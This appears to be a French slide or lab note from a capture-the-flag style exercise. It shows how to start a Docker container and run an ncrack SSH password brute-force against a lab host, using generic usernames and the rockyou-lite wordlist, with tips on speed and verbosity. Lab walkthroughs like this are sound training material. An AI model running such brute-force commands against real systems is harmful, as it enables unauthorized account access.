

# Initialisation
Après avoir fait :
docker-compose up -d
docker exec -it ncrack /bin/bash
On lance la commande, vu qu’on veut attaquer le port ssh de la machine 192.172.20.4 et qu’on ne connait pas les nom d’utilisateurs, on attend que le challenger utilise une liste de login générique.
ncrack -22 –user user,guest -P rockyoulite.txt ssh://192.172.20.4 -T5
(temps estimé 10min, enlevé guest pour le faire diminué)
pendant que la commande tourne taper v pour augmenter le niveau de verbose et taper <entrer> pour voir l’état d’avancement d’avancement